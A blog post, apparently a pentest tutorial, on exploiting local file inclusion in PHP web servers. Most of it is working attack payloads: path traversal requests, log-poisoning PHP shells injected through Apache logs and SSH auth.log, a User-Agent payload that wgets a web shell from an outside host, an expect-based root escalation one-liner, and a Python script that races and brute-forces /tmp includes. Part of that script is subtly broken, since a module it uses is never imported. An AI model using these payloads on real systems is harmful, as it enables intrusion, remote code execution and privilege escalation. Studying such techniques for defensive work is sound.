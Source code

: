 ```yaml
---
layout: post
title:  "Exploiting Local File Includes"
date:   2018-07-27 13:49:33 +0000
tags: [Web Application, pentest, redteam, blueteam]
---
```

![](/assets/padlock.png)

Local File Includes (LFI) is an easy way for an attacker to view files on a server that were not meant to be viewed or retrieved. Through either a mis-configured on the server code or bad programming a would-be attacker can potentially view local Operating System files in the current web-page.

## Exploiting LFI
If you can include files from local application/web server, below is the most basic test for LFI:
```
http://vulnsite.com?exec=aaa/../../../../../etc/passwd
```
This initial test is usually successful as “/etc/passwd’’ file usually as read-world permissions. The application server typically runs as “apache’’ thus denying permission to read “/etc/shadow’’ which usually has stricter permissions. Note: this may be different for IoT devices as they typically run as root!

## Code Execution
Requirements: PHP installed.

There are quite a few nice articles on internet on how one can do code execution from LFI. But essentially, you need php installed and then you try to inject php code into certain files and then try to include these files. These files typically are:
* Apache access logs
* Apache error logs
* /proc/self/environ
* /var/log/apache/error.log

On this occasion the ‘apache’ user had access to read the error logs. So, when you access a URI such as:
```
http://vuln.com/foo%3c%3fphp%20passthru('id')%20%3f%3e
```
It adds the following line to Apache’s error log:
```
404 file not found foo<?php passthru(’id’);?>
```
Now, you can include the error log files and execute the OS code:
```
http://vulnsite.com?exec=aaa/../../../../../usr/local/apache/logs/error_logs%00a
```

## /proc/self/environ
Now lets see if /proc/self/environ is accessible? We replace /etc/passwd with /proc/self/environ
```
www.website.com/view.php?page=../../../../../proc/self/environ
```
If you get something like the below, its highly likely it is exploitable:
```
DOCUMENT_ROOT=/home/test/public_html GATEWAY_INTERFACE=CGI/1.1 HTTP_ACCEPT=text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1 HTTP_COOKIE=PHPSESSID=134cc7261b341231b9594844ac2ad7ac HTTP_HOST=www.website.com HTTP_REFERER=http://www.website.com/index.php?view=../../../../../../etc/passwd HTTP_USER_AGENT=Opera/9.80 (Windows NT 5.1; U; en) Presto/2.2.15 Version/10.00 PATH=/bin:/usr/bin QUERY_STRING=view=..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron REDIRECT_STATUS=200 REMOTE_ADDR=6x.1xx.4x.1xx REMOTE_PORT=35665 REQUEST_METHOD=GET REQUEST_URI=/index.php?view=..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron SCRIPT_FILENAME=/home/sirgod/public_html/index.php SCRIPT_NAME=/index.php SERVER_ADDR=1xx.1xx.1xx.6x SERVER_ADMIN=webmaster@website.com SERVER_NAME=www.website.com SERVER_PORT=80 SERVER_PROTOCOL=HTTP/1.0 SERVER_SIGNATURE=
Apache/1.3.37 (Unix) mod_ssl/2.2.11 OpenSSL/0.9.8i DAV/2 mod_auth_passthrough/2.1 mod_bwlimited/1.4 FrontPage/5.0.2.2635 Server at www.website.com Port 80
```
If you got a blank page or an error? /proc/self/environ is not accessible or the OS is likely FreeBSD and not vulnerable to this particular attack.

Now let’s inject our malicious code in proc/self/environ.How we can do that?We can inject our code in User-Agent HTTP Header.

Use Tamper Data Addon for Firefox to change the User-Agent, (or equally another intercepting proxy).
```
<?system(‘wget http://vuln.com/Shells/gny.txt -O shell.php’);?>
```
Start Tamper Data in Firefox and request the LFI similar to (you will have to adapt the URL for your vulnerable website):
```
www.website.com/view.php?page=../../../../../proc/self/environ
```
A PHP-shell should then be available at:
```
www.website.com/shell.php
SSH and /var/log/auth.log
ssh “<?php echo system($_GET[“cmd”]);exit;?>”@example.com
Code should be stored in “/var/log/auth.log’’.
```
Include this log file (“/var/log/auth.log’’) for the win!

## Getting Root
If you are lucky enough to find a password in a clear text file, how could you exploit this?….

After researching the idea, we thought of a way to use “expect’’ with the following 1 line of php script:
```
<?php passthru(‘echo -e \’#!/usr/bin/expect -f\nset password [lrange $argv 0 0]; set cmd [lrange $argv 1 1];set timeout -1; spawn su -c “$cmd” ;
match_max 100000 ;expect “*?assword:*”; send — “$password\r”; send — “\r”; expect eof\’>/tmp/su.exp&/usr/bin/expect /tmp/su.exp passw0rd whoami>>/tmp/out.txt’);?>
```
This script will do the following:
* create an expect script(/tmp/su.exp) which will take the root (su) password and command to execute as argument.
* run the expect script with the root password and command to run as root.

## Getting Root 2
An LFI vulnerability on a pentest once revealed server logs, and “auth.log” was world readable!

By default, OpenSSH makes an entry (consisting of the user name and other data) to auth.log for every authentication attempt made to the ssh daemon. Knowing this, I did some quick testing and found that I could inject php code into auth.log from the user name field of an ssh client by attempting to authenticate. The command took some time to get working right as bash requires finesse for processing special characters, but after some troubleshooting, I came up with the following:
```
<?php echo system($_GET[“cmd”]);exit;?>’@<host>
```
One issue we encountered is that OpenSSH makes 2 entries containing the user name to auth.log for every authentication attempt. In the following example, only one authentication attempt was made, but, as you can see, it appears in the log 2x times.
```
May 10 21:26:57 host sshd[17594]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=host.localdomain user=
<?php echo system($_GET[“cmd”]);exit;?>
May 10 21:26:59 host sshd[17592]: error: PAM: Authentication failure for
<?php echo system($_GET[“cmd”]);exit;?> from host.localdomain
```
The injected command will run three unless php execution is terminated after the first command. We did this above with the exit; command. The unfortunate side effect is that you have one chance to get this right. Otherwise, you have to wait until the log cycles before you can make another attempt. Here is what the final product looked like with the addition of a pre-format tag:
```
http://<host>/index.php?page=../../../../var/log/auth.log?cmd=ls+-lh+/var/log
total 14M
drwxr-xr-x 2 root root 4.0K Apr 2 20:53 ConsoleKit
-rw-r — r — 1 root user 15K May 10 17:03 Xorg.0.log
-rw-r — r — 1 root user 15K May 10 16:00 Xorg.0.log.old
-rw-r — r — 1 root user 7.4K Aug 10 2009 Xorg.6.log
-rw-r — r — 1 root user 7.4K Aug 10 2009 Xorg.6.log.old
drwxr-xr-x 2 apache apache 4.0K May 8 03:10 apache2
…
```
## Abusing tmp
So the plan is to:

Upload a file and trigger a self-inclusion.
Repeat step-1 many times to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0–9a-zA-Z]{6}

Enjoy our shell.

```
import itertools
import requests
import sys
print(‘[+] Trying to win the race’)
f = {‘file’: open(‘shell.php’, ‘rb’)}
for _ in range(4096 * 4096):
 requests.post(‘http://target.com/index.php?c=index.php', f)
print(‘[+] Bruteforcing the inclusion’)
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
 url = ‘http://target.com/index.php?c=/tmp/php' + fname
 r = requests.get(url)
 if ‘load average’ in r.text: # <?php echo system(‘uptime’);
 print(‘[+] We have got a shell: ‘ + url)
 sys.exit(0)
print(‘[x] Something went wrong, please try again’)
```
